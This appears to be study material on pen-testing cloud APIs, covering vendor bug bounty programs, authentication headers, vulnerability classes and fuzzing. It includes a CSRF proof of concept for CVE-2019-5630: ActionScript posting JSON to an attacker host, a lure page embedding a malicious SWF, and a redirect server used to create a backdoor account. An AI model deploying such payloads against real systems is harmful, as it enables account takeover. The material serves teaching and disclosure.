 # Pen-testing Cloud APIs: Study Material

##### Author Bio
- https://www.rodneybeede.com/curriculum%20vitae/bio.html

---

## Cloud Vendor Programs

- AWS
  - No public bug-bounty reward (VRP) program
- Google Cloud
  - _If a vulnerability is found, please report it via the Vulnerability Reward Program._
  - https://bughunters.google.com/
- Microsoft Azure
  - "enable responsible security testing" … "without causing harm"
  - https://www.microsoft.com/en-us/msrc/pentest-rules-of-engagement
  - https://www.microsoft.com/en-us/msrc/bounty
- Salesforce
  - "…invitation-only program…"
  - https://trailhead.salesforce.com/content/learn/modules/salesforce-bug-bounty-program/get-to-know-the-salesforce-bug-bounty-program
  - https://www.salesforce.com/company/legal/disclosure/
- OpenStack
  - Open source accessibility for testing
  - https://security.openstack.org/reporting.html

---

## What Uses Cloud APIs

- Command line tools
  - Some remote client to the API endpoint server
- Servers
  - Some web app calls other services' APIs
  - Example: Web app stores a file upload into Cloud Object Storage via an API call
- Web browsers
  - AJAX / JavaScript

---

## API Authentication (Common)

- Passed in an HTTP header
  - Authorization: Bearer some-token
  - Authorization: Basic cm9kbmV5OnRoYW5rc2ZvcmRlY29kaW5n
  - X-Auth-Token: some-token
  - Cookie: session-id=abcdef1234567890
  - Etc.
  
---

## API Vulnerability Example: CVE-2019-5630

- Endpoint for the API and the Web UI were shared
- API accepted call with Authorization or Cookie headers
- CSRF was possible
- https://www.rodneybeede.com/security/cve-2019-5630.html

# CVE-2019-5630

- Back when Flash was still in browsers
  - Site with malicious csrf.swf
- Send user a redirect to their own Nexpose InsightVM console API
- API endpoint "Content-Type: application/json"
  - Not typically allowed to set this via CSRF (web browser limitation)
  - Flash allowed this however
  - Lesson: **Don't assume** Content-Type is safe enough for CSRF prevention
- Web browser helpfully passed Cookie auth header
- REST API used authenticated session as user to create backdoor account

```javascript
      var url:String = "http://big-mean-attacker.rodneybeede.com:80/";
      var request:URLRequest = new URLRequest(url);
      request.requestHeaders.push(new URLRequestHeader("Content-Type","application/json"));
      request.data = myJson;
      request.method = URLRequestMethod.POST;
```
https://github.com/rbeede/CVE-2019-5630/blob/master/csrf.as#L33

```html
<object width="500" height="500" data="http://big-mean-attacker.rodneybeede.com/csrf.swf"></object>
To see more cute cats "Click to enable Adobe Flash Player"
```

```python
class RedirectHandler(BaseHTTPServer.BaseHTTPRequestHandler):
    def do_POST(s):
       # dir(s)
        if s.path == '/csrf.swf':
           s.send_response(200)
           s.send_header("Content-Type","application/x-shockwave-flash")
           s.end_headers()
           s.wfile.write(open("csrf.swf", "rb").read())
           return 
        elif s.path == '/pause':
           s.send_response(200)
           return
        s.send_response(307)
        s.send_header("Location", "https://rapid7.insightvm.example.com/api/3/users")
        s.end_headers()
```
https://github.com/rbeede/CVE-2019-5630/blob/master/hack-py-redirect-server.py

---

# API Types

- REST
  - HTTP headers play big role
  - HTTP request content payload
    - Popular to see json now
    - Sometimes plain HTTP form encoded data
- XML
  - Popular for SAML
  - Hint: Look for XXE attacks
- SOAP
  - Older, Not as popular today
  - Had WSDL (Web Service Definition Language)
- Some APIs support multiple
  - Example:  AWS S3 supports SOAP and REST

---

# Cloud Shared Responsibility Model

- Customer Responsibility
  - Configuration of customer account settings
  - Applying ACLs to data correctly
  - Customer provided software security
- Cloud Provider Responsibility
  - Infrastructure security
  - Web service (API, UI) code security
  - Data storage security (as specified by customer)
- We will be pen testing the cloud APIs themselves
  - Cloud Provider responsibility

---

# Cloud API Vulnerabilities

- Confused-deputy
  - Mishandled user input & authorization leads to customer data exposure
- Same account ACL (IDOR) bypass
  - Violating an IAM policy
- XSS
  - Reflective not very common (due to content-type) but not impossible
  - Persistent or DOM possible
- SSRF
  - Obtaining access to internal systems
- DoS
  - Causing API to exhaust provider resources
- HTTP 500 Errors
  - More useful than you think
- More: [OWASP API Security Top 10](https://owasp.org/www-project-api-security/)

---

# Discussion: API Input Fuzzing/Tampering

- Param is some type of number?
  - currpage = 1
- Try an unexpected number value
  - currpage = 4294967297
    - 2^32  +  1
  - currpage = -2147483649
    - 2^31 - 1
  - 2^64, 99999999999999999999999999999999999999999999, etc.
- Try no value
  - null, "", None, currpage=&nextparam…
- Did you get an unexpected (HTTP 500) error?

---

# Cloud Vendor Vulns

  - No exact number
    - Internally discovered vulns not published
  - Some public sources:
    - "Google Cloud: Here are the six 'best' vulnerabilities security researchers found last year" ([link](https://www.zdnet.com/article/google-cloud-here-are-the-six-best-vulnerabilities-security-researchers-found-last-year/) – zdnet.com; 2021)
    - Blogs ([https://github.com/hashishrajan/cloud-security-vulnerabilities](https://github.com/hashishrajan/cloud-security-vulnerabilities); 2023)
  - Azure – ~438 CVEs [(link - notcve.org)](https://notcve.org/search.php?query=Azure++vendor%3AMicrosoft)
  - Google Cloud – 206+ ([link](https://cloud.google.com/support/bulletins) – published by google.com)
  - AWS Security Bulletins – 51+ ([link](https://aws.amazon.com/security/security-bulletins/) – published by amazon.com)

These numbers do not mean one vendor is better than another. Just shows vulns do exist.

---

Next - [Authorization Vulnerabilities](auth-vulns.md)
